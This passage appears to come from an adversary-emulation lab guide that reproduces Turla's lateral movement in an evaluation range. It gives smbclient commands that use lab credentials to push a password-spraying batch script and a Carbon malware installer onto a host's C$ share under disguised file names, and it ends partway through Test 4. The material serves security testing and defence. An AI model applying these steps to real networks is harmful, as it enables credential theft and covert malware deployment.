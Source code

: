 Test 3 emulates Turla laterally moving to the domain controller by conducting
password spraying via a batch script to retrieve a domain admin's credentials
to the domain controller. The batch script sprays several of the discovered
domain admin accounts with weak passwords, one of which successfully mounts the
`C:\` drive of the domain controller.

---

### :biohazard: Procedures

:arrow_right: From the "smbclient" tab on the Kali Linux machine, copy the
password spray script to `hobgoblin`:
```bash
cd /opt/day1/turla/Resources/payloads/carbon/
smbclient -U 'skt.local\frieda'%'Password3!' //10.20.20.102/C$ -c 'put password_spray.bat Users\Public\winsas64.bat'
```

:arrow_right: Return to your RDP session to `hobgoblin` as `Gunter`.

:arrow_right: Open a **Windows Command Prompt** and execute the password spray script.

```bat
"C:\Users\Public\winsas64.bat"
```

:heavy_exclamation_mark: Verify that the script successfully sprays `Frieda`'s
password by checking that output matches the following:
```text
The command completed successfully.

frieda:Password3! SUCCESS
```

### :moyai: Source Code

* [Password spray batch script](../../Resources/payloads/carbon/password_spray.bat)

### :microscope: Cited Intelligence

* <https://securelist.com/the-epic-turla-operation/65545/>

<br>

## Test 4: Carbon on Domain Controller

:microphone: `Voice Track:`

Test 4 emulates execution of CARBON-DLL on the domain controller via scheduled
task.

---

### :biohazard: Procedures

:arrow_right: From the "smbclient" tab on the Kali Linux machine, copy the
Carbon installer executable to Windows host, `hobgoblin`.
```bash
cd /opt/day1/turla/Resources/payloads/carbon/
smbclient -U 'skt.local\frieda'%'Password3!' //10.20.20.102/C$ -c 'put carbon_installer_2.exe Windows\System32\wmimetricsq.exe'
```
